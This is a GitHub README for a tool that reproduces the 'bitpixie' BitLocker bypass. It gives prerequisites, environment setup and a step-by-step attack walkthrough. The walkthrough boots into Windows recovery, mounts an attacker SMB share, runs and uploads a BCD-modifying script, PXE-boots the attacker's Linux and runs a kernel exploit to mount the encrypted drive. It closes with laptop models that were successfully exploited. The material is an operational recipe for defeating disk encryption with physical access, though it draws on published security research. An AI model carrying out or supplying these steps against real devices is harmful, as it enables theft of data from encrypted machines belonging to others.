 # Bitpixie

The [bitpixie vulnerability](https://github.com/Wack0/bitlocker-attacks?tab=readme-ov-file#bitpixie)
existed since October 2005, was discovered in August 2022 and publicly [disclosed in February 2023 by
Rairii](https://mastodon.social/@Rairii@haqueers.com/109817927808486332) after which it was assigned
[CVE-2023-21563](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-21563).

The full attack chain was demonstrated by Thomas in his [38C3 talk](https://events.ccc.de/congress/2024/hub/en/event/windows-bitlocker-screwed-without-a-screwdriver/)
which was followed up by two blog posts:

- [Windows BitLocker -- Screwed without a Screwdriver](https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver/)
- [On Secure Boot, TPMs, SBAT, and downgrades -- Why Microsoft hasn't fixed BitLocker yet](https://neodyme.io/en/blog/bitlocker_why_no_fix/)

This repository reproduces the original research performed by Thomas based on his talk and blog posts.
The used Linux kernel exploit ([blog](https://pwning.tech/nftables/),
[PoC](https://github.com/Notselwyn/CVE-2024-1086])) for CVE-2024-1086 was 
written by [@notselwyn](https://twitter.com/notselwyn).

Parallel to this work [Andreas Grasser](https://github.com/andigandhi/bitpixie) also 
attempted to reproduce the original research, ending up with a very similar approach.

## Prerequisites

BitLocker must be configured without pre-boot authentication also sometimes referred 
to as unattended/transparent mode i.e. without a PIN or a key file.

Booting in PXE mode must be possible. In particular, the UEFI firmware must have a working TCP/IP stack. If only the network boot option is disabled, some USB dongles might work around that limitation.

If you have access to the Windows environment, launch an elevated instance of `msinfo32` the entry *Automatic Device Encryption Support* should read *Meets prerequisites*.

A TPM 2.0 is needed to support the PCR7 binding
- In Windows open *Device Manager > Security Devices* and check the TPM properties
- Check in the UEFI settings, something like: *Security > Security Chip > Security Chip Selection*.
	
>[!warning]
> Changing the TPM mode will clear the stored keys, therefore:
> 1. Boot Windows, disable BitLocker: `manage-bde -protectors -disable C:`
> 2. Boot into UEFI/BIOS, enable the TPMv2.0 security chip
> 3. Boot Windows, re-enable BitLocker `manage-bde -protectors -enable C:`

Secure Boot needs to be enabled and used for integrity validation. The command below, must list exactly the PCRs `7, 11`:
```
PS> manage-bde -protectors -get c:
...
      PCR Validation Profile:
        7, 11
        (Uses Secure Boot for integrity validation)
```

> [!warning]
> If the PCR register `4` is included, this attack will not work.

>[!note]
> To make a device intentionally vulnerable a local GPO can be configured:
> 1. Temporarily suspend BitLcoker protection: `manage-bde -protectors -disable C:`
> 2. Create a GPO using `gpedit.msc`
> 	- Open *Computer Configuration > Administrative Templates > Windows Components > BitLocker Drive Encryption > Operating System Drives*
> 	- Enable *Configure TPM startup PIN and PCRs* and enter the *PCR values:* `7, 11`
> 3. Apply the GPO: `gpupdate /force`
> 4. Confirm settings: `gpresult /scope coputer /h gpo.html`
> 5. Re-enable BitLocker: `manage-bde -protectors -enable c:`
 
[KB5025885](https://support.microsoft.com/en-us/topic/kb5025885-how-to-manage-the-windows-boot-manager-revocations-for-secure-boot-changes-associated-with-cve-2023-24932-41a975df-beb2-40c1-99a3-b3ff139f832d#bkmk_mitigation_guidelines) must not be installed.

Only systems using a bootloader signed with the 2011 Secure Boot certificate are vulnerable. To check this, mount the boot partition and check the signature of `EFI\Microsoft\Boot\bootmgfw.efi`. This can also be performed using [osslsigncode](https://github.com/mtrojnar/osslsigncode).

For the Linux based exploitation strategy implemented in this repository, Microsoft's 3rd-party Secure Boot certificate, used to sign the shim loader, needs to be enabled.

## Environment Setup

### Linux Initramfs Generation

An initramfs containing all needed components based on a stripped down version of [frood, an Alpine initramfs NAS](https://words.filippo.io/dispatches/frood/) can be generated with:
```
cd linux
./bitpixie build
./bitpixie qemu # optional sanity check, whether it boots at all
./bitpixie deploy
cd - 
```

### SMB Server

Start a SMB server from where the `create-bcd.bat` attack script can be downloaded from and the resulting, device-specific BCD can be uploaded to. Impacket's `smbserver.py` works great for that:

```
cd pxe && ./start-smb.sh
```

### PXE Server

Download the necessary artifacts needed and start the PXE server:
```
cd pxe
./download.sh
./start-pxe.sh eth0
```

## Attack

### Boot into Recovery Mode

Let Windows boot normally, on the logon screen hold down the *Shift* key and select the *Restart* option from the power menu.

Windows will reboot into a recovery mode. Select *Troubleshoot > Advanced Option > Command line*. If desired, select *Change keyboard layout*. When prompted for BitLocker recovery key, select *Skip this drive*.

You should now be in a command prompt within the recovery environment.

If needed, enable network support:
```
wpeutil initializenetwork
```

>[!note]
> You should see DHCP request served by `dnsmasq`.

Mount the exposed SMB share:
```
net use S: \\10.13.37.100\smb
```

Make sure you are in local temp directory:
```
cd %TEMP%
```

Copy attack script to temporary directory:
```
copy S:\create-bcd.bat .
```

Execute attacker script to generate a `BCD_modded` file:
```
.\create-bcd.bat
```

Transfer the modified boot configuration to the SMB share:
```
copy BCD_modded S:\BCD
```

> [!note]
> This file needs to be served as `Boot\BCD` via PXE.

Exit the command line and chose *Use a device* then select the option indicating PXE boot.

### Boot into Linux Environment

The device should now reboot over PXE, fail to fully load the Windows boot configuration then fall back to the served Linux environment.

>[!note]
> If you end up on a blank blue screen it might help to press *Escape* to show the Grub boot menu where you can select the Linux system.
> 
> This typically means something did not work as expected.

Login with the `root` user, no password is needed. Follow the instructions printed in the logon message.
Replace `XYZ` with device file representing your encrypted BitLocker volume:
```
exploit && ./mount.sh /dev/XYZ && ls mnt
```

## Success Stories

Windows 11 devices which were successfully exploited, after manually enabling the TCP stack in the UEFI settings:

- Lenovo ThinkPad T460s 20FAA01100
- Lenovo ThinkPad X280 20KES6C42B
